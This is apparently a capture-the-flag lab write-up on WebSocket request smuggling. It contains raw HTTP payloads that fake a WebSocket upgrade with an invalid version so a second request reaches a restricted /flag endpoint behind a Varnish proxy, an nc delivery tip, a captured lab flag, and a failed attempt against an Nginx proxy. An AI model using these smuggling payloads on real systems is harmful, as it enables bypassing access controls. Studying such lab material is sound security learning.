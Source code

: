 ```shell
GET / HTTP/1.1
Host: MACHINE_IP:8001
Sec-WebSocket-Version: 13
Upgrade: WebSocket
Connection: Upgrade
Sec-WebSocket-Key: nf6dB8Pb/BLinZ7UexUXHg==

GET /flag HTTP/1.1
Host: MACHINE_IP:8001
```

This payload should still work, even though the first request is directed to `/`, which is not a WebSocket-enabled endpoint. The proxy simply doesn't check the response from the upgrade, so you can use any payload that looks close enough to a WebSocket upgrade.

**Note:** This payload will randomly fail when using Burp. You can either retry the payload a couple of times until it works, or deliver it by pasting it into a terminal running `nc MACHINE_IP 8001`, where it will work every time (don't forget the trailing newlines).

```
GET /socket HTTP/1.1
Host: 10.10.201.33:8001
Sec-WebSocket-Version: 133      <--- change numbers
Upgrade: WebSocket
Connection: Upgrade
Sec-WebSocket-Key: nf6dB8Pb/BLinZ7UexUXHg==

GET /flag HTTP/1.1
Host: 10.10.201.33:8001



THM{bf208caddc31c6bb52621fdc2b3a73e5}
```


## defeating secure proxies 

Upgrading our Proxy

So far, we've been working with a proxy that won't check the web server's response to determine whether the WebSocket upgrade was successful. In this task, we'll replace the vulnerable Varnish proxy with an Nginx proxy that checks responses before tunnelling requests through a WebSocket connection. The backend application will still have the `/socket` endpoint enabled with WebSockets and the `/flag` endpoint as our target. The new application can be accessed via `http://10.10.201.33:8002/`.

```
GET /socket HTTP/1.1
Host: 10.10.201.33:8002
Sec-WebSocket-Version: 133
Upgrade: WebSocket
Connection: Upgrade
Sec-WebSocket-Key: nf6dB8Pb/BLinZ7UexUXHg==


GET /flag HTTP/1.1
Host: 10.10.201.33:8002


# returns HTML 403 forbidden HTML
```
